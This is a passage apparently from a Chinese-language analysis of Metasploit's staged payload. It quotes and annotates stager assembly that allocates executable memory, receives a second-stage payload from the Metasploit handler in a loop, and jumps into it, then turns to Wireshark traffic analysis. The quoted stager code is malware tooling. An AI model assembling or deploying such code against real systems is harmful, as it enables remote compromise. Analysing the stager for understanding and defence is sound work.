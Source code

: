 首先压入了 VirtualAlloc 函数的参数，接着在第 6 行使用 block\_api\_hash 函数得到了 VirtualAlloc 函数的地址。

接着调用了 VirtualAlloc 函数用来申请一块具有 RWX 权限的内存空间，空间的大小是 msf 发送过来的四字节数据。

```c
mov esi,[esi] ; dereference the pointer to the second stage length 
push 0x40 ; PAGE_EXECUTE_READWRITE 
push 0x1000 ; MEM_COMMIT 
push esi ; push the newly recieved second stage length. 
push 0 ; NULL as we dont care where the allocation is. 
push #{Rex::Text.block_api_hash('kernel32.dll', 'VirtualAlloc')} 
call ebp ; VirtualAlloc( NULL, dwLength, MEM_COMMIT, PAGE_EXECUTE_READWRITE ); 
; Receive the second stage and execute it... 
xchg ebx, eax ; ebx = our new memory address for the new stage 
push ebx ; push the address of the new stage so we can return into it
```

在第 7 行又调用了 recv 函数，接收 msf 发送过来的载荷，通过 push 压入的参数可以知道，是将接收到的载荷放到了刚刚申请的内存中。

需要注意的是，msf 并不是一下子就把整个载荷发送了过来，而是把载荷分成了很多份分开发送的，所以下面通过 cmp 指令来判断是否接收完成，这里判断有没有接收完成的依据是通过，载荷的大小 - 接收的字节数来循环接收的。

```c
read_more: 
    push 0 ; flags 
    push esi ; length 
    push ebx ; the current address into our second stage's RWX buffer 
    push edi ; the saved socket 
    push #{Rex::Text.block_api_hash('ws2_32.dll', 'recv')} 
    call ebp ; recv( s, buffer, length, 0 );//recv 函数的返回值会放到 eax 寄存器中，返回值是接收了多少字节的数据 
    cmp eax, 0//将 eax 与 0 比较，如果 eax 大于或等于 0 那么就执行 jge 跳转到 read_successful 处执行 
    jge read_successful
```

下面的汇编主要是判断载荷有没有接收完成，如果没有接收完成就通过 jnz 跳转继续调用 read\_more 下的代码，如果接收完成就直接 ret。

```c
read_successful: 
    add ebx, eax ; buffer += bytes_received//跳过接收过得载荷的内存，因为不可能一直往一个内存地址里面塞载荷 
    sub esi, eax ; length -= bytes_received, will set flags//减去对载荷的大小 
    jnz read_more ; continue if we have more to read//如果 sub esi,eax 不等于 0 那么就执行 jnz 跳回 read\_more 继续接收，如果等于 0，代表接收载荷完成，就不会跳转到 read_more 而是直接 retn 返回 
    ret ; return into the second stage
```

到了这里，我们已经接收到了真正的载荷了，但是现在还无法运行，因为在内存中没有人调用它，下面我们先通过 wireshark 来分析上线的过程，看 metasploit 都发过来了什么，在分析 metsrv.dll 是如何被调用的。

## 上线流量分析

服务端做好监听，wireshark 做好过滤规则

![image.png](assets/1698893687-6f50aca947fe9173eb3a85cf08c3c87f.png)
